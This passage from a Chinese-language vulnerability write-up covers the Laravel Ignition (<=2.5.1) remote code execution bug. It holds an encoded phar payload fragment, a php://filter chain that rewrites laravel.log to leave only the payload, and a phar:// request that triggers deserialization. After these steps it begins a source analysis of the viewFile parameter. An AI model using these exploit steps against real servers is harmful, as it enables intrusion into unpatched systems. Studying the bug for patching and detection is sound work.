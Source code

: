0=41=00=48=00=32=00=4D=00=42=00=57=00=41=00=45=00=41=00=41=00=41=00=41=00=44=00=48=00=35=00=2F=00=32=00=4B=00=51=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=64=00=47=00=56=00=7A=00=64=00=48=00=52=00=6C=00=63=00=33=00=52=00=42=00=39=00=31=00=34=00=62=00=6B=00=38=00=70=00=6C=00=39=00=69=00=36=00=34=00=34=00=2F=00=4D=00=55=00=37=00=39=00=56=00=79=00=6F=00=35=00=6A=00=37=00=4B=00=41=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmy2Q1nAnUIlvqFK20mXsMDqK0kxzJ0VPnicoXXa9orVEiabzfLUHW0l4aA/640?wx_fmt=png)

  
四、清空干扰字符只留下我们生成的 payload

viewFile:php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=../storage/logs/laravel.log

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmyicnJqAoknTwnD8hricP4EwPaNBkzAxdibFKxR6n5ywxJnlbZNxHoW340g/640?wx_fmt=png)  

  
五、触发 phar 反序列化

```
viewFile: phar://路径/storage/logs/laravel.log/test.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmyYLWefH8Zb2EcWa7ozAhF2QI4DqGq7BdicID4ibf42w7ORLo2aHn6GX2Q/640?wx_fmt=png)

**0x06 漏洞分析**  

  

安装时特意安装的 ignition==2.5.1，所以漏洞其实就发生在 Ignition（<=2.5.1）中，ignition 默认提供了以下几个 solutions，通过这些 solutions 可以快速修复一些 debug，这也是漏洞的利用的起点 <span="">  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmyNheAdOe3VbkBiaeK5DnZsyvYvUmRdS5CiaAa9E0kaUe5z2Npe1oUEOVA/640?wx_fmt=png)  

从原文作者哪里得知漏洞出现在 MakeViewVariableOptionalSolution.php 文件中

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmypeAicTtwdWQotrFOS8Jibwyqv7uHbHdBHOumO9g7U2ODY7ibQdTsibCKTQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmyxEL5UZsvzw7CRRiczjqGYyD5BkuMlsyXiaSLl1tvHkqQOUFFcuChJCSw/640?wx_fmt=png)

  
我们先在 Debug 页面抓个包看看都有哪些参数  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmyUIFe1kYQPRAw28tkHzRx6kaFZx3W7dHqicLajhkBlxCmcUn0Txrqe7g/640?wx_fmt=png)

  
可以到有 3 个参数

solution：表示解决这个方法的类

parameters 下有

valirabelName：变量名

viewFile：变量名所在的位置

盲猜可控的参数就是 viewFile 了，我们看看源代码是怎么样的  

![](https://mmbiz.qpic.cn/mmbiz_png/VfLUYJEMVsjCgvCiakCbCacibeBxIMbLmyLkdew7QEo1znJe3G6YaXN7XWdic0hDFgZStoJwMMKHUIjDj3EFb7wBw/640?wx_fmt=png)  

  
可以看到 run() 方法中把可控的 parameters 参数传了过去，这里可以调用到 MakeViewVariableOptionalSolution::run()，去看下源码逻辑与功能  
